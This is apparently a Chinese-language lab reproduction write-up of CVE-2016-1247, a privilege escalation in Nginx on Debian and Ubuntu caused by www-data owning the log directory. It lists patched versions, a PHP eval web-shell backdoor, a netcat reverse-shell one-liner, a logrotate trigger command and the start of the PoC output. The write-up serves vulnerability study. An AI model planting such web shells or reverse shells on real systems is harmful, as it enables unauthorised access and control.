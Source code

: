 （CVE-2016-1247）Nginx 提权漏洞
===============================

一、漏洞简介
------------

漏洞原因是在打包nginx时，设置的日志目录的所有者为 www-data
，导致一个低权限账户可以利用软链接的帮助达到提权。所以修复也是将日志的所有者改为root即可。

二、漏洞影响
------------

Debian: Fixed in Nginx 1.6.2-5+deb8u3

Ubuntu:

Fixed in the following updated Nginx package versions on Ubuntu:

Ubuntu 16.04 LTS: 1.10.0-0ubuntu0.16.04.3

Ubuntu 14.04 LTS: 1.4.6-1ubuntu3.6

Ubuntu 16.10: 1.10.1-0ubuntu1.1

三、复现过程
------------

    docker run -d -i --name CVE-2016-1247 -p 80:80 xk0n/cve-2016-1247

在容器里配置了 nginx + php 的环境，并有一个一句话木马
`/var/www/backdoor.php`

    <?php
    @eval($_POST[c]);
    ?>

可以用[antSword](https://github.com/antoor/antSword)连接测试，用下面的语句可以反弹回一个shell

    mkfifo /tmp/bd;cat /tmp/bd | /bin/sh -i 2>&1 | nc <target IP> <port> >/tmp/bd

测试时发现gcc编译出错，可以在本地编译一个后上传。poc运行后会等待
logrotate 此时可以用下面的命令，人工触发条件。

    /usr/sbin/logrotate -vf /etc/logrotate.d/nginx

测试记录如下：

    $ bash ./cve-2016-1247-poc.sh /var/log/nginx/error.log
     _______________________________
    < Is your server (N)jinxed ? ;o >
     -------------------------------
               \ 
                \          __---__
                        _-       /--______
                   __--( /     \ )XXXXXXXXXXX\v.  
                 .-XXX(   O   O  )XXXXXXXXXXXXXXX- 
                /XXX(       U     )        XXXXXXX\ 
              /XXXXX(              )--_  XXXXXXXXXXX\ 
             /XXXXX/ (      O     )   XXXXXX   \XXXXX\ 
             XXXXX/   /            XXXXXX   \__ \XXXXX
             XXXXXX__/          XXXXXX         \__---->
     ---___  XXX__/          XXXXXX      \__         /
       \-  --__/   ___/\  XXXXXX            /  ___--/=
        \-\    ___/    XXXXXX              '--- XXXXXX
           \-\/XXX\ XXXXXX                      /XXXXX
             \XXXXXXXXX   \                    /XXXXX/
              \XXXXXX      >                 _/XXXXX/
                \XXXXX--__/              __-- XXXX/
                 -XXXXXXXX---------------  XXXXXX-
                    \XXXXXXXXXXXXXXXXXXXXXXXXXX/
                      ""VXXXXXXXXXXXXXXXXXXV""
     